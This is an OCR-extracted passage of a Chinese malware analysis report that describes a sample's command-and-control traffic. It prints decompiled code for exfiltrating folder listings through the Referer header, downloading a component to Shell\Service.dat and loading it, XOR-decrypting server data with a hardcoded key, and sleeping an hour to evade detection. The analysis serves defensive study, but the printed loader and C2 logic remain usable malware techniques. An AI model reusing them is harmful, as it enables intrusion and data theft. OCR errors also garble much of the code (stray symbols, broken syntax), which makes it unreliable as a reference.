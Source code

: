 文件夹遍历时通信的url格式如下：Server1 $^+$ xor3([pc_name][username])_[finddir_count].A向服务端1发送请求后，服务端1返回的数据为需要遍历的文件夹，获取到的文件夹信息使用[1进行包裹后用，进行拼接，最终所有的数据拼接搭配到Referer:后，并上传到服务端。  

无论是否获取到服务端下发的文件夹数据，每通信一次则全局变量finddir_count加1:  

v8=((int64（_fastcal1 \*)(_int64,_int64,_m128i \*，_QWORD,unsigned int,_QWORD,_int64,_int64，_int64,_int64))a1->InternetopenUr1w)( v7, a3, v37, 0i64, 0x80000000, 0i64, v39.m128i_164[0], v39.m128i_i64[1], v40, v41); ++al->finddir_count; Free_180001540((1nt64)&v49); Free_180001540（（ int64)v55); Free_180001540((int64)&v46); gotoLABEL_60;  

组件下载功能的通信url格式如下：server1 $^+$ xor3([pc_name][username])_[download_count].B  

# 文件下载后被存储到%Userprofile%\AppData\Local\Microsoft\Windows\Shell\Sample.tmp，将 Sample.tmp复制到%Userprofile%\AppData\Local\Microsoft\Windows\Shell\Service.dat并加载运行:  

sub_1800015A4((_m128i \*)v48,V31,v43);   
v32=xor_decrypt_180002164(&pException0bject,(const _m128i \*)v48);// %Userprofile%\AppData\Local\Microsoft\windows\Shell\Service.dat   
if （Source !=(wchar_t $(44)\times32$ ）   
{ Free_180001540((_int64)Source); d_180023B70((m128i \*)Source, V32,0x20ui64); v32[1].m128i_i64[0] $=$ 0i64; V32[1].m128i_i64[1] $=$ 7i64; v32->m128i_i16[0] =0;   
}   
Free_180001540((_int64)&pException0bject);   
v33=（const wchar-t \*)Source;   
if （si128.m128i_i64[1] >7ui64) V33 $=$ Source[e];   
wcscpy_s(&Src,0xc8ui64,v33);   
ExpandEnvironmentStringsW(&Src,NewFileName,Oxc8u);   
CopyFilew(&Dst, NewFileName, 0);   
sub_18000F118(&Dst);   
if ( !waccess(NewFileName, θ)) (（void（_fastcall \*)(WCHAR \*))a1->LoadLibraryw)(NewFileName);   
++a1->download_count;  

# 服务端返回的数据使用g73qrc4dwx8jt9qmhi4s作为key进行异或解密，而非样本中的异或3算法：  

((void (_fastcall \*)(_int64,char \*，_int64,unsigned int \*))a1->InternetReadFile)(v11,v55,2048i64,&v39);   
if （v55[0]!=60)   
{ memset_180024210(&v45,0, 0x108ui64); sub_180003EE8((_int64)&v45,&Dst); strcpy(v48,"g73qrc4dwx8jt9qmhi4s"); $\vee14=\theta$ LODWORD(V15) $=0$ ； if（v39） { V16 $=$ 0i64; $\vee17=\vee55$ ； do { LOBYTE(V13) $=\ast_{\vee17}$ ++v14; ++v17; LOBYTE(v13) $=$ v48[v16]\~v13; sub_18000431c(&v45,v13); $v18=v15+1$ LODWORD(V15) $=0$ ； if （v16!=19） LODWORD(v15) $=~\cup18$ v19 = v16; $v2\Theta=v16+1$ $v16~=~\mathsf{6i64};$ if （v19 != 19) $v16~=~v20$ ； while（ $\vee14<\vee39$ );  

当上述两个功能相关的通信完成后，样本还会向服务端发送当前受控主机的状态，包含当前文件夹遍历count、组件下载count、主机名、%userprofile%和加密后的主机名和用户名。  

当上述流程完成后进入1小时的sleep，攻击者利用这种长休眠机制不仅能够在一定程度上躲避流量设备的检测，而且可以让攻击者有足够的时间针对指定用户下发组件：  

v65 =((_int64 (_fastcal1 \*)(const wchar_t \*，_QWORD,_QWORD,_QWORD，_DWORD))ve->InternetOpenW)( L"Mozilla/5.0", 0i64, 0i64， 0i64, 0);   
v66=((_int64 (_fastcal1 \*)(_int64,wchar_t \*，wchar_t \*，_QWoRD,unsigned int，_QWoRD))ve->InternetOpenUrlw)( v65, Destination, V124, 0i64, 0x80000000, 0i64);   
((void(_fastcal1 \*)(_int64))v0->InternetCloseHandle)(v66);   
((void(fastcall \*)(int64))ve->InternetCloseHandle)(v65);   
((void(_fastcall \*)(int64))v0->Sleep)(3600000i64);   
sub_180006654((_m128i \*)&v67[1], v0->finddir_count);  
